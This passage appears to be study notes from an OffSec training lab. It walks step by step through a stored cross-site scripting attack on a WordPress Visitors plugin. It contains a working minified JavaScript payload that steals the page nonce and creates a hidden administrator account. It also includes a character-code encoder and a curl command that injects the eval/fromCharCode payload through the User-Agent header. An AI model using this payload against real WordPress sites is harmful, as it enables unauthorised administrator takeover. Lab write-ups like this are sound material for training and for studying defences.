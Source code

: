 3. To ensure that our JavaScript payload will be handled correctly by Burp and the target application, first minify it
	1. Navigate to https://jscompress.com
	   ```javascript
var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);
```

4. Next encode it so any bad chars won't interfere with sending the payload
```javascript
function encode_to_javascript(string) {
		var input = string
		var output = '';
		for(pos = 0; pos < input.length; pos++) {
			output += input.charCodeAt(pos);
			if(pos != (input.length - 1)) {
				output += ",";
			}
		}
		return output;
	}
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
	- Parses the minified JS string parameter and convert each character into the corresponding UTF-16 integer code using the _charCodeAt_ method.
  .
	[_charCodeAt_]((https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/charCodeAt))

5. Navigate to about:config in browser and use the Console tab to craft encoded payload
   ![](xss_charCodeAt.png)
   
6. Send payload
	1. Use *fromCharCode* method to decode payload
	2. Put within *eval()* method to execute
	3. Use *curl* to launch the attack
```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,...........41,59))</script>" --proxy 127.0.0.1:8080
```
	---proxy 127.0.0.1:8080  is used to send through BurpSuite
	Can leave Intercept ON in burp to inspect the request

7. Once everything looks good, Forward, and turn Intercept OFF.
8. Simulate execution by logging in to the OffSec WP instance as admin, then clicking on the Visitors plugin dashboard on the bottom left.
![](offsec_wp.png)
	Only 1 entry is present and no User-Agent recorded as the browser can't render any strings from \<script> tags
